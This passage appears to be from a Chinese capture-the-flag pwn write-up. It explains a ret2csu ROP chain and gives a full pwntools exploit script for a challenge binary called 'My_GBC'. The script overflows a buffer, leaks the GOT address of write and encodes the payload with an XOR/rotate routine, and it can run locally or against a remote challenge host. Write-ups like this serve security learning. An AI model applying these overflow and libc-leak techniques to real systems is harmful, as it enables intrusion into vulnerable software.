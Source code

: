 ![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241006021812.png)
即先调用`loc_4013A6`往`r12,r13,r14,r15`放入我们的值，然后调用`loc_401390`将`r14,r13,r12`的值分别存入`rdx,rsi,rdi`，再跳转到`r15`
具体构造payload:
```python
payload = b'a' * 0x18
payload += p64(csu_1)
payload += p64(0) + p64(1)
# r12 r13 r14 r15 -> rdi rsi rdx call
payload += p64(1) + p64(leak_got) + p64(8) + p64(leak_got)
payload += p64(csu_2) + b'a' * 0x38
payload += p64(main)
```
完整exp:
```python
from pwn import *

def ror1(byte, count):
    return ((byte >> count) | (byte << (8 - count))) & 0xFF

def decrypt(data, key, length):
    decrypted_data = bytearray()
    for i in range(length):
        byte = data[i]
        byte = ror1(byte, 3)  # 右循环移位3位
        byte ^= key  # 异或操作
        decrypted_data.append(byte)
    return decrypted_data

context.log_level = 'debug'
local = True
elf = ELF('./My_GBC')
libc = ELF('./libc.so.6')
if local:
    p = process('./My_GBC')
    pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('39.106.48.123', 32325)
key = 0x5a

ret = 0x40101a
rdi = 0x4013b3
rsi = 0x4013b1

csu_1 = 0x4013Aa
csu_2 = 0x401390

write_plt = 0x401060
leak_got = elf.got['write']
main = elf.symbols['main']

'''payload = b'a' * 0x18
payload += p64(rdi) + p64(1)
payload += p64(rsi) + p64(leak_got) + p64(8)
payload += p64(write_plt) + p64(main)'''
payload = b'a' * 0x18
payload += p64(csu_1)
payload += p64(0) + p64(1)
# r12 r13 r14 r15 -> rdi rsi rdx call
payload += p64(1) + p64(leak_got) + p64(8) + p64(leak_got)
payload += p64(csu_2) + b'a' * 0x38
payload += p64(main)

payload = decrypt(payload, key, len(payload))
```